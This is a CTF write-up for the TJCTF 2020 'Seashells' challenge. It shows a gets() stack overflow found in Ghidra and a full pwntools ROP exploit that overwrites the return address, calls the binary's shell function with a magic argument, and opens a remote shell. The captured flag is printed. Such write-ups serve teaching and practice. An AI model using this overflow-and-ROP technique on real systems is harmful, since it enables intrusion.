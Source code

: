 # TJCTF 2020

## Seashells

> 50
>
> I heard there's someone [selling shells](seashells)? They seem to be out of stock though...
> 
> `nc p1.tjctf.org 8009`
>
> Written by  KyleForkBomb

Tags: _pwn_ _x86-64_ _buf_ _remote-shell_ _rop_ _gets_


## Summary

Stack overflow, then ROP to internal function that provides a remote shell.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Some mitigations in place.  GOT off the table, can blow through stack, easy ROP (no PIE), no shellcode (NX).
    
### Decompile with Ghidra

![](main.png)

Line 13: `gets(local_12)`, 'nough said.  With no stack canary in place, it'll be easy to overwrite the return address.

_Whaaaaaaaa?_

![](shell.png)

"shell"-code, nice.  `shell` requires a parameter of `-0x2152350145414111` (`0xDEADCAFEBABEBEEF`), and can be bypassed if we wanted to hardcode an address, but since the game master(s) put in the effort for a check, we might as well honor it.  I mean, how clever of them to spell, in hex, `DEADCAFEBABEBEEF`.

`local_12` is `0x12` bytes above the return address:

```
             undefined8        RAX:8              <RETURN>
             undefined1        Stack[-0x12]:1     local_12                                
```

We just need to write out `0x12` bytes, then use a `pop rdi` gadget to set the parameter for `shell`, then call `shell`.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

#p = process('./seashells')
p = remote('p1.tjctf.org', 8009)

context.clear(arch='amd64')

binary = ELF('./seashells')
shell = binary.symbols['shell']

rop = ROP('seashells')
try:
    pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
except:
    print("no ROP for you!")
    sys.exit(1)

payload  = b''
payload += 0x12 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(0xDEADCAFEBABEBEEF)
payload += p64(shell)

p.recvuntil('Would you like a shell?')
p.sendline(payload)

p.interactive()
```

This code should be self-explanatory, however there's an extra `ret` (`payload += p64(pop_rdi + 1)`).  This is required to align the stack, see [Blind Piloting](https://github.com/datajerk/ctf-write-ups/blob/master/b01lersctf2020/blind-piloting/README.md) for a lengthly example and explanation.

Output:

```
# ./exploit.py
[+] Opening connection to p1.tjctf.org on port 8009: Done
[*] '/pwd/datajerk/tjctf2020/seashells/seashells'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loading gadgets for '/pwd/datajerk/tjctf2020/seashells/seashells'
[*] Switching to interactive mode

why are you even here?
$ cat flag.txt
tjctf{she_s3lls_se4_sh3ll5}
```